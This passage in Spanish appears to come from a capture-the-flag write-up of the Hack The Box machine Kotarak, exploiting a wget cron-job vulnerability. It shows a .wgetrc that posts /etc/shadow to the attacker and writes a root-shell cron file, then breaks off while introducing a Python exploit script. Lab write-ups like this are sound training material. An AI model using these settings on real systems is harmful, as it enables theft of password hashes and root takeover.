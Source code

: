 Suponiendo que la máquina tercera está realizando la consulta a intervalos regulares de tiempo, vamos al apartado del exploit **Cronjob with wget scenario**:

![""](/assets/images/htb-kotarak/kotarak-exploit.png)

Nos indica que primero debemos crear un archivo `.wgetrc` con el siguiente contenido, esto lo haremos en nuestra máquina de atacantes:

```bash
post_file = /etc/shadow
output_document = /etc/cron.d/wget-root-shell
```

Despúes tenemos que crearnos un archivo en python: `wget-exploit.py` al cual vamos a retocar para ajustarlo a nuestro caso, esto en la máquina víctima modificando los siguientes campos:
